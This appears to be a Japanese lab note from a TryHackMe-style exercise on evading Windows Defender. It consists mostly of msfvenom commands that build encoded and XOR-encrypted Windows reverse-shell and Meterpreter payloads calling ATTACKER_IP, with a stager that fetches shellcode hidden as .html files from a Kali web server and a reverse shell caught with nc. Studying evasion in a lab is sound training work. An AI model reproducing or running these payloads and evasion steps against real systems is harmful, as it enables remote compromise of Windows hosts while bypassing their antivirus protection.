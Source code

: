 ## AVに検知される奴

### エンコード
エンコーダーの一覧
```
$ msfvenom --list encoders | grep excellent
```

ペイロードの作成
```
$ msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
```

### 暗号化
暗号一覧
```
$ msfvenom --list encrypt
```

ペイロードの作成
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe
```

これらは単純過ぎて、Windows Defenderに検知される。

## AVに検知されない奴

ドキュメントにしたがい試してみたが、自分のPCのWindows11ではWindows Defenderに検知される。

- THMのwindows defenderの状況
```
PS C:\Users\thm> Get-MpComputerStatus | Select-Object -Property AMEngineVersion, AMProductVersion, AntispywareSignatureVersion

AMEngineVersion AMProductVersion AntispywareSignatureVersion
--------------- ---------------- ---------------------------
1.1.19500.2     4.18.2205.7      1.373.1336.0


PS C:\Users\thm> Get-MpComputerStatus | Select-Object -Property AntivirusSignatureLastUpdated

AntivirusSignatureLastUpdated
-----------------------------
9/1/2022 3:20:12 AM
```

- 自分のPC
```
PS C:\Users\hoge> Get-MpComputerStatus | Select-Object -Property AMEngineVersion, AMProductVersion, AntispywareSignatureVersion

AMEngineVersion AMProductVersion AntispywareSignatureVersion
--------------- ---------------- ---------------------------
1.1.24050.5     4.18.24050.7     1.413.487.0


PS C:\Users\hoge> Get-MpComputerStatus | Select-Object -Property AntivirusSignatureLastUpdated

AntivirusSignatureLastUpdated
-----------------------------
2024/06/24 13:51:20
```

## なので自分で作った検知されない奴

### 共通の下準備

#### ステージャーの作成

それぞれ、`mfsvenom`でペイロードを作成して、webサーバーに設置。共通のステージャー(hoge.cs)を使用する。
1. hoge.csを作成
2. Windows上でコンパイル
```
>C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe hoge.cs
```
3. 出来上がった`hoge.exe`をやられ役のWindowsに配備

#### kaliでwebサーバーを起動
```
$ python -m http.server
```

### パターン1: 電卓起動(ステージャー型)

1. ペイロードの作成
```
$ msfvenom -a x64 --platform windows -p windows/x64/exec cmd=calc.exe -f raw -o a.html -b '\x00\x0a\x0d'\n
```

2. やられ役のWindows上で、hoge.exeを実行
```
>hoge.exe
```

![image](https://github.com/yokohama/thm/assets/1023421/f99c50cc-3053-43c8-ace7-9f04628b1c11)



### パターン2: リバースシェル(ステージャー型)

1. ペイロードの作成
```
$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=<Kali IP> LPORT=7474 -f raw -o b.html -b '\x00\x0a\x0d\'
```

2. やられ役のWindows上で、hoge.exeを実行(ペイロードURLをb.htmlに変更して)
```
>hoge.exe
```

3. Kaliで待ち受ける
```
$ nc -lvp 7474
```

![image](https://github.com/yokohama/thm/assets/1023421/33cbaeee-37bc-4e0b-83cc-bb86328e6eb9)

